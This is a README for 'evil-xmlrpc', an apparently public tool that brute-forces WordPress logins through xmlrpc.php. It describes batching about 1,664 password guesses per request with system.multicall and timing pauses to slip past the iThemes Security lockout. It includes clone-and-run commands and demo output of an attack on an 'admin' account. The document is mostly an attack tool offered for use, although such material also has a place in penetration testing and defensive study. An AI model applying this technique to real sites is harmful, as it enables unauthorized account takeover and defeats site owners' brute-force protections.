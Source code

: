 # evil-xmlrpc
evil-xmlrpc is a tool that I created to help me bruteforce wordpress user accounts using xmlrpc.php while bypassing iThemes Security preventing lockouts

While testing a specific target I noticed that xmlrpc was enabled, but after sending 5 requests against a discovered user account, I was locked out of the site. After waiting till the lockout period ended I saw that iThemes Security Plugin was being used on the site. I soon noticed that I was completely locked out after sending 5 requests. Regular bruteforce methods which invloved sending requests that contain only a single username and password per request wasn't going to work here. Later I discovered that you could send many login attempts via 1 single request using "system.multicall". In my particular situation I found that I could only send 1666 login attempts per request at a time (may be different for your target). So I made this script to be able to take a password list (of about 1 million words) and send it off in groups of 1664 (Initially was 1666 in the script, but cut it back by 2 for breathing room). 

For example: 
* Request 1 (Sends lines 1-1666 of wordlist) 
* Request 2 (Sends lines 1667-3332 of wordlist)
* Request 3 (Sends lines 3333-4998 of wordlist)
* Request 4 (Sends lines 4999-6664 of wordlist)

Before sending the 5th request in order to prevent being locked out of the site, stop for 5 mins and then continue going down the list.

## Install 

```sh
git clone https://github.com/0xApt/evil-xmlrpc.git
cd evil-xmlrpc
pip3 install -r requirements.txt
python3 evil-xmlrpc.py <passwordlist> <username> <https://www.examplesite.com>
```

## Demo output

```sh

root@user:~ python3 evil-xmlrpc.py 100000-pass-wordlist.txt admin https://www.examplesite.com                                                                                                                      

                 ██  ▀██                        ▀██
  ▄▄▄▄  ▄▄▄▄ ▄▄▄ ▄▄▄   ██     ▄▄▄ ▄▄▄ ▄▄ ▄▄ ▄▄    ██  ▄▄▄ ▄▄  ▄▄▄ ▄▄▄    ▄▄▄▄
▄█▄▄▄██  ▀█▄  █   ██   ██      ▀█▄▄▀   ██ ██ ██   ██   ██▀ ▀▀  ██▀  ██ ▄█   ▀▀
██        ▀█▄█    ██   ██       ▄█▄    ██ ██ ██   ██   ██      ██    █ ██
 ▀█▄▄▄▀    ▀█    ▄██▄ ▄██▄    ▄█  ██▄ ▄██ ██ ██▄ ▄██▄ ▄██▄     ██▄▄▄▀   ▀█▄▄▄▀
                                                               ██
                                                              ▀▀▀▀
                                By 0xapt

[*] Checking if site is vulnerable..
[*] Site is vulnerable!
[*] File has 100000 lines

[*] Sending Payload.. 
[*] Attempt: 1 
[*] Target User: admin
[*] Using lines 0 to 1664 from password list
[*] Content Length: 356283
[*] Interesting.. Saving response..
[*] Password Not Cracked.

[*] Sending Payload.. 
[*] Attempt: 2 
[*] Target User: admin
[*] Using lines 1665 to 3328 from password list
[*] Content Length: 356069
[*] Password Not Cracked.

[*] Sending Payload.. 
[*] Attempt: 3 
[*] Target User: admin
[*] Using lines 3329 to 4992 from password list
[*] Content Length: 356069
[*] Password Not Cracked.

[*] Sending Payload.. 
[*] Attempt: 4 
[*] Target User: admin
[*] Using lines 4993 to 6656 from password list
[*] Content Length: 356069
[*] Password Not Cracked.

[*] Waiting 5 mins to prevent lockout...
[*] Till next requests: 3:24
```

